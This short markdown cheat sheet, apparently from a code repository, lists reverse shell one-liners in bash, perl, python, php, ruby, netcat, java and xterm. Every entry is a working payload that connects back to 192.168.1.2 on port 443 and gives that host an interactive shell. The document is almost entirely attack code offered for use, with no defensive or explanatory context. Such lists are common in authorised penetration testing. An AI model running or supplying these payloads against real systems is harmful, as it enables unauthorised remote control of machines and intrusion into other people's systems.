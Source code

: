 ## Reverse-Shell-FULL

## bash
bash -i >& /dev/tcp/192.168.1.2/443 0>&1

## perl
perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## php
php -r '$sock=fsockopen("192.168.1.2",443);exec("/bin/sh -i <&3 >&3 2>&3");'

## ruby
ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

## netcat
nc -e /bin/sh 192.168.1.2 443
## or
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f

## java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.2/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

## xterm
xterm -display 192.168.1.2
